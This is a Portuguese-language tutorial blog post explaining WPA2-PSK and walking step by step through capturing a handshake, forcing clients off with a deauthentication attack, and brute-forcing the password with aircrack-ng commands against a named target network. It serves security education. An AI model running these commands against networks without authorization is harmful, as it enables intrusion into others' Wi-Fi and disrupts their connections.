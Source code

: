 ```yaml
---
title: "WPA-2 PSK: Capturando conexões e quebra de hashes"
date: 2024-01-06
published: 2024-01-06
description: "Capturando handshake e quebra de hashes"
categories:
  - "Easy"
tags:
  - "Redes"
images: ["/images/2024-01-06-9.png"]
author: jhaysonj
---
```


## Introdução

O objetivo dessa postagem é introduzir o leitor às principais etapas de conexão do protocolo WPA2-PSK (Wi-Fi Protected Access Pre Shared Key) e como os ataques a esse protocolo funcionam. 

## O Que é o WPA2-PSK?

O Protocolo WPA2-PSK (Wi-Fi Protected Access 2 - Pre-Shared Key) é um padrão de segurança para redes sem fio que foi desenvolvido para melhorar a proteção oferecida pelo seu antecessor, o WPA (Wi-Fi Protected Access). O WPA2-PSK é amplamente utilizado para proteger redes Wi-Fi domésticas e empresariais, garantindo a confidencialidade e a integridade das comunicações sem fio.

A sigla "PSK" refere-se a "Pre-Shared Key" (Chave Pré-Compartilhada), indicando que a segurança da rede é baseada em uma chave compartilhada entre os dispositivos que desejam se conectar à rede Wi-Fi. Essa chave, também conhecida como senha de rede, é configurada previamente no roteador ou ponto de acesso Wi-Fi e deve ser inserida nos dispositivos clientes para estabelecer a conexão segura.

O funcionamento do WPA2-PSK envolve a utilização de algoritmos de criptografia robustos, como o AES (Advanced Encryption Standard), para proteger a transmissão de dados entre os dispositivos conectados à rede. A chave pré-compartilhada é essencial para a autenticação dos dispositivos, garantindo que apenas aqueles com a senha correta possam se conectar à rede.

## Ataque
O ataque ao protocolo WPA2-PSK consiste em capturar o handshake da conexão, usando uma antena em modo de monitoramente. Em posse do handshake, realizamos bruteforce das possíveis senhas.

**Finalizar processos**

Antes de colocarmos em modo de monitoramento, existem processos que podem dificultar a execução do programa:
```
airmon-ng check
```

Caso seja necessário finalizar algum processo, utilizamos o comando abaixo
```
airmon-ng check kill
```

**Configuração da antena**
1. Colocar a placa no modo de monitoramento
o comando  abaixo coloca a placa em modo de monitoramento.
```
airmon-ng start wlan0
```
![Figura 1](/images/2024-01-06-1.png)

obs: Após esse comando, é possível que a interface (placa) tenha mudado de nome.
Para consultar os dispositivos basta executar o comando “iwconfig“. Após executarmos esse comando, percebemos que a placa manteve o mesmo nome “wlan0”, mas em alguns casos há adição de um “mon”(monitor) ao final do nome, resultando em “wlan0mon”.

![Figura 2](/images/2024-01-06-2.png)


2. Monitorar as redes para selecionar o alvo
o comando abaixo  monitora as redes
```
airodump-ng wlan0
```
informações do alvo: 
essid = “baby yoda comunista”
bssid = “40:EE:DD:39:C7:E8”

![Figura 3](/images/2024-01-06-3.png)


3. Trocar o canal da placa para o mesmo canal da rede alvo
- `ifconfig wlan0 down`  - derruba a placa para fazermos as modificações
-  `iwconfig wlan0 channel 6` - troca o canal da placa para a mesma da rede alvo
- `ifconfig wlan0 up` - sobe a placa após fazermos as modificações
- `iwlist wlan0 channel` - mostra todos os canais da placa e o canal atual da placa

![Figura 4](/images/2024-01-06-4.png)


No github abaixo tem um script em python para automatizar os passos de troca de canal
https://github.com/jhaysonj/projeto-NM/blob/main/wifi.sh

4. Monitorar a rede alvo 
o comando abaixo monitora a rede e salva as informações monitoradas em arquivos de nome “wpa_baby_yoda”

```
airodump-ng wlan0 --bssid 40:EE:DD:39:C7:E8 --channel 8 -w wpa_baby_yoda
```

![Figura 5](/images/2024-01-06-5.png)


Todos os endereços macs da coluna  “STATION” são dispositivos conectados à rede.

**Arquivos gerados**
![Figura 6](/images/2024-01-06-6.png)


**Captura de handshake**
O handshake é feito toda vez que um dispositivo se conecta à rede, neste caso, podemos simplesmente esperar um dispositivo se conectar.
 
**Ataque de desautenticação**
Para facilitar o processo de captura de handshake, utilizaremos um ataque chamado ataque de desautenticação, onde forçamos a desconexão do dispositivo, para que o alvo se reconecte e assim capturamos o handshake.
O comando abaixo envia pacotes que desautenticam o dispositivo.
```
aireplay-ng -0 10 -a 40:EE:DD:39:C7:E8 wlan0 -c 64:A2:00:0D:04:0E
```
![Figura 7](/images/2024-01-06-7.png)

Após isso, conseguimos capturar o handshake, como mostra a imagem abaixo

![Figura 8](/images/2024-01-06-8.png)



5. Realizar a quebra da senha
o comando abaixo faz um bruteforce para realizar a quebra da senha
```
aircrack-ng -a 2 -b 40:EE:DD:39:C7:E8 -w ./Documents/wordlist_numerica.txt ./Desktop/wpa_baby_yoda-02.cap
```
![Figura 9](/images/2024-01-06-9.png)


## Referências

- Aircrack: <https://www.aircrack-ng.org/doku.php?id=airmon-ng>

